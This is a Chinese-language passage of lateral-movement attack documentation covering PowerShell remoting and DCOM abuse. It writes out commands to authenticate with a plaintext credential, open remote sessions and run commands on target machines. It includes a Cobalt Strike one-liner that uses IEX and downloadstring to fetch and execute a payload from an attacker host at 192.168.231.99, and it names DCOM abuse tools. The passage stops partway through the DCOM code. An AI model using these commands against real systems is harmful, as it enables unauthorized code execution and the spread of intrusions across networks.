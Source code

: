 可以使用 New-PSSession powershell 命令打开远程会话。

如果您不是以目标计算机上的 PSRemote 权限运行，则可能需要向域控制器进行身份验证。要与 New-PSSession 结合执行此操作，首先创建一个 PSCredential 对象（这些示例来自 PowerView 帮助文档）：

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

然后使用 New-PSSession 命令和我们刚刚创建的凭据：

```
$session = New-PSSession -ComputerName <target computer name> -Credential $Cred
```

这将在目标计算机上打开 PowerShell 会话

然后，您可以使用 Invoke-Command cmdlet 和刚刚创建的会话在系统上运行命令

```
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
```

会话的清理是通过 Disconnect-PSSession 和 Remove-PSSession 命令完成的。

```
Disconnect-PSSession -Session $session
Remove-PSSession -Session $session
```

通过此 Cobalt Strike 进行横向移动的示例如下：

```
powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
-ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
Disconnect-PSSession -Session $session; Remove-PSSession -Session $session
```

## ExecuteDCOM

可以通过在远程计算机上实例化 COM 对象并调用其方法来允许在某些条件下执行代码

+ 滥用信息

+ powershell

PowerShell 脚本 Invoke-DCOM 使用各种不同的 COM 对象（ProgId：MMC20.Application、ShellWindows、ShellBrowserWindow、ShellBrowserWindow 和 ExcelDDE）实现横向移动。LethalHTA 使用 HTA COM 对象（ProgId：htafile）实现横向移动。

人们可以使用以下 PowerShell 代码在远程计算机上手动实例化和操作 COM 对象。如果通过 COM 对象的 CLSID 指定它：

```
$ComputerName = <target computer name>              # Remote computer
$clsid = "{fbae34e8-bf95-4da8-bf98-6c6e580aa348}"   # GUID of the COM object
$Type = [Type]::GetTypeFromCLSID($clsid, $ComputerName)
$ComObject = [Activator]::CreateInstance($Type)
```

如果通过 ProgID 指定 COM 对象：

